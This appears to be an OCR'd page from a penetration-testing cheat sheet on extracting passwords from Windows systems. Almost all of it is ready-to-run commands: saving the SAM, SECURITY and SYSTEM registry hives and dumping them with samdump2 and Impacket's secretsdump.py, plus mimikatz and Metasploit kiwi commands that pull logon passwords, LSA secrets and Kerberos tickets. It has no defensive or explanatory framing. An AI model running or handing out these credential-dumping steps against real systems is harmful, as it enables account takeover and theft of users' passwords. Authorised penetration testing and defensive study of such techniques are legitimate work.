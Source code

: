 # Password Extraction

### samdump2

```
C:> reg save HKLM\SAM c:\SAM
C:> reg save HKLM\System c:\System

$ samdump2 System SAM
```

### mimikatz.exe

Need to match architectures.

```
privilege::debug
20 ‘OK’

sekurlsa::logonPasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
kerberos::list
```

### Metasploit

```
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

### Impacket

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system.

```
C:> reg.exe save hklm\sam c:\windows\temp\sam.save
C:> reg.exe save hklm\security c:\windows\temp\security.save
C:> reg.exe save hklm\system c:\windows\temp\system.save

$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
